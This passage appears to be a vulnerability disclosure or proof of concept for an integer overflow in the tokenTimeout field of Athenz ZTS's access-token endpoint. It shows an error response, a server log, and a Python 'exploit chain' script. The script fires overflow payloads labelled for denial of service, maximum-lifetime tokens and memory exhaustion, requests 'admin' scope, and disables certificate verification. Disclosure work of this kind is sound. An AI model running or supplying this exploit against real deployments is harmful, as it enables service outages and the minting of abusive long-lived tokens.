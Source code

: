 ### **Vulnerable Response:**  
```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Connection: close
Content-Length: 98

{
  "code": 500,
  "message": "java.lang.ArithmeticException: integer overflow"
}
```

#### **Server Logs:**  
```log
ERROR [2023-08-04 14:30:22] ZTSImpl: Integer overflow in tokenTimeout
java.lang.ArithmeticException: integer overflow
  at com.yahoo.athenz.zts.ZTSImpl.postAccessTokenRequest(ZTSImpl.java:2715)
```

## Full Exploit Chain**  
`athenz_exploit.py`  
```python
import requests
import argparse

# Parse arguments
parser = argparse.ArgumentParser()
parser.add_argument("--target", default="https://localhost:4443")
parser.add_argument("--cert", required=True)
parser.add_argument("--key", required=True)
args = parser.parse_args()

# Payloads for different attacks
payloads = {
    "DoS_overflow": 2147483648,
    "Max_token": -1,
    "Memory_exhaustion": 9223372036854775807  # Long.MAX_VALUE
}

for name, value in payloads.items():
    print(f"\n[+] Testing payload: {name} ({value})")
    
    response = requests.post(
        f"{args.target}/zts/v1/accesstoken",
        cert=(args.cert, args.key),
        json={
            "grantType": "client_credentials",
            "scope": "admin",
            "tokenTimeout": value
        },
        verify=False
    )
    
    print(f"Response: {response.status_code}")
    print(f"Body: {response.text[:200]}...")
    
    if response.status_code == 200:
        token = response.json().get("access_token", "")
        print(f"Token: {token[:50]}... (expires_in: {response.json().get('expires_in', '?')})")
```
